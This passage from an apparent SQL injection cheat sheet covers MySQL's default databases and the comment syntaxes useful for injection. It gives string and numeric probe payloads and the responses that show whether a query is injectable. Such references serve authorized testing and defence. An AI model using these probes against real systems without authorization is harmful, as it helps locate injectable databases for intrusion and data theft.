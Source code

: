 ## MYSQL Default Databases

| Name               | Description              |
|--------------------|--------------------------|
| mysql              | Requires root privileges |
| information_schema | Available from version 5 and higher |

## MYSQL Comments

MySQL comments are annotations in SQL code that are ignored by the MySQL server during execution.

| Type                       | Description                       |
|----------------------------|-----------------------------------|
| `#`                        | Hash comment                      |
| `/* MYSQL Comment */`      | C-style comment                   |
| `/*! MYSQL Special SQL */` | Special SQL                       |
| `/*!32302 10*/`            | Comment for MYSQL version 3.23.02 |
| `--`                       | SQL comment                       |
| `;%00`                     | Nullbyte                          |
| \`                         | Backtick                          |

## MYSQL Testing Injection

* **Strings**: Query like `SELECT * FROM Table WHERE id = 'FUZZ';`

    ```ps1
    ' False
    '' True
    " False
    "" True
    \ False
    \\ True
    ```

* **Numeric**: Query like `SELECT * FROM Table WHERE id = FUZZ;`

    ```ps1
    AND 1     True
    AND 0     False
    AND true True
    AND false False
    1-false     Returns 1 if vulnerable
    1-true     Returns 0 if vulnerable
    1*56     Returns 56 if vulnerable
    1*56     Returns 1 if not vulnerable
    ```
